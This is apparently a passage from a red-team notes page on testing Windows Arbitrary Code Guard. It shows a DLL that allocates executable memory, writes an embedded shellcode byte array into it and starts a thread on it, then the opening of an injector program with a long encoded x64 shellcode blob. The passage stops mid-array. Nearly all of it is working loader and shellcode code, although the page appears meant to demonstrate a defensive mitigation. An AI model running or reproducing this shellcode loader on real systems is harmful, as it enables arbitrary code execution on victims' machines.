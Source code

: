 ```cpp
				"\xd1\xb1\xa5\xe2\x7e\xe3\x2b\x62\x6f\x29\xa1\x94\x7f\xee\xf2"
				"\xea\xd1\x5b\x95\xd1\x81\x24\x84\xfe\xd8\xd0\x3e\x55\x41\x68"
				"\xf0\x25\xd1\x5b\xe4\x9a\xa3\xc2\x84\xfe\x2b\x11\x59\xbf\xe8"
				"\xe3\xc1\x8d\x05\x5c\x71\xe2\x6b\xea\xf8\xef\xb8\xdd\xea\x61"
				"\xb4\x22\x80\xcb\xe5\xe4\x57\x5a\xad\xd0\x14\x41\x90\xb8\xad"
				"\x94\x64\x5d\xae\x2b\x90\xe1\xec";

			PVOID buffer = VirtualAlloc(NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
			WriteProcessMemory(GetCurrentProcess(), buffer, shellcode, sizeof shellcode, NULL);
			CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)buffer, NULL, 0, NULL);
			MessageBoxA(NULL, "ACG not enabled - shellcode executed", "ACG not enabled - shellcode executed", 0);
		}
		case DLL_THREAD_ATTACH:
		case DLL_THREAD_DETACH:
		case DLL_PROCESS_DETACH:
			break;
    }
    return TRUE;
}


```
{% endtab %}

{% tab title="injector.exe" %}
```cpp
#include <iostream>
#include <Windows.h>

int main(int argc, char *argv[]) {
	unsigned char shellcode[] =
		"\x48\x31\xc9\x48\x81\xe9\xc6\xff\xff\xff\x48\x8d\x05\xef\xff"
		"\xff\xff\x48\xbb\x1d\xbe\xa2\x7b\x2b\x90\xe1\xec\x48\x31\x58"
		"\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\xe1\xf6\x21\x9f\xdb\x78"
		"\x21\xec\x1d\xbe\xe3\x2a\x6a\xc0\xb3\xbd\x4b\xf6\x93\xa9\x4e"
		"\xd8\x6a\xbe\x7d\xf6\x29\x29\x33\xd8\x6a\xbe\x3d\xf6\x29\x09"
		"\x7b\xd8\xee\x5b\x57\xf4\xef\x4a\xe2\xd8\xd0\x2c\xb1\x82\xc3"
		"\x07\x29\xbc\xc1\xad\xdc\x77\xaf\x3a\x2a\x51\x03\x01\x4f\xff"
		"\xf3\x33\xa0\xc2\xc1\x67\x5f\x82\xea\x7a\xfb\x1b\x61\x64\x1d"
		"\xbe\xa2\x33\xae\x50\x95\x8b\x55\xbf\x72\x2b\xa0\xd8\xf9\xa8"
		"\x96\xfe\x82\x32\x2a\x40\x02\xba\x55\x41\x6b\x3a\xa0\xa4\x69"
		"\xa4\x1c\x68\xef\x4a\xe2\xd8\xd0\x2c\xb1\xff\x63\xb2\x26\xd1"
		"\xe0\x2d\x25\x5e\xd7\x8a\x67\x93\xad\xc8\x15\xfb\x9b\xaa\x5e"
		"\x48\xb9\xa8\x96\xfe\x86\x32\x2a\x40\x87\xad\x96\xb2\xea\x3f"
		"\xa0\xd0\xfd\xa5\x1c\x6e\xe3\xf0\x2f\x18\xa9\xed\xcd\xff\xfa"
		"\x3a\x73\xce\xb8\xb6\x5c\xe6\xe3\x22\x6a\xca\xa9\x6f\xf1\x9e"
		"\xe3\x29\xd4\x70\xb9\xad\x44\xe4\xea\xf0\x39\x79\xb6\x13\xe2"
		"\x41\xff\x32\x95\xe7\x92\xde\x42\x8d\x90\x7b\x2b\xd1\xb7\xa5"
		"\x94\x58\xea\xfa\xc7\x30\xe0\xec\x1d\xf7\x2b\x9e\x62\x2c\xe3"
		"\xec\x1c\x05\xa8\x7b\x2b\x95\xa0\xb8\x54\x37\x46\x37\xa2\x61"
		"\xa0\x56\x51\xc9\x84\x7c\xd4\x45\xad\x65\xf7\xd6\xa3\x7a\x2b"
		"\x90\xb8\xad\xa7\x97\x22\x10\x2b\x6f\x34\xbc\x4d\xf3\x93\xb2"
		"\x66\xa1\x21\xa4\xe2\x7e\xea\xf2\xe9\xd8\x1e\x2c\x55\x37\x63"
		"\x3a\x91\x7a\xee\x33\xfd\x41\x77\x33\xa2\x57\x8b\xfc\x5c\xe6"
		"\xee\xf2\xc9\xd8\x68\x15\x5c\x04\x3b\xde\x5f\xf1\x1e\x39\x55"
		"\x3f\x66\x3b\x29\x90\xe1\xa5\xa5\xdd\xcf\x1f\x2b\x90\xe1\xec"
		"\x1d\xff\xf2\x3a\x7b\xd8\x68\x0e\x4a\xe9\xf5\x36\x1a\x50\x8b"
		"\xe1\x44\xff\xf2\x99\xd7\xf6\x26\xa8\x39\xea\xa3\x7a\x63\x1d"
		"\xa5\xc8\x05\x78\xa2\x13\x63\x19\x07\xba\x4d\xff\xf2\x3a\x7b"
		"\xd1\xb1\xa5\xe2\x7e\xe3\x2b\x62\x6f\x29\xa1\x94\x7f\xee\xf2"
		"\xea\xd1\x5b\x95\xd1\x81\x24\x84\xfe\xd8\xd0\x3e\x55\x41\x68"
		"\xf0\x25\xd1\x5b\xe4\x9a\xa3\xc2\x84\xfe\x2b\x11\x59\xbf\xe8"
```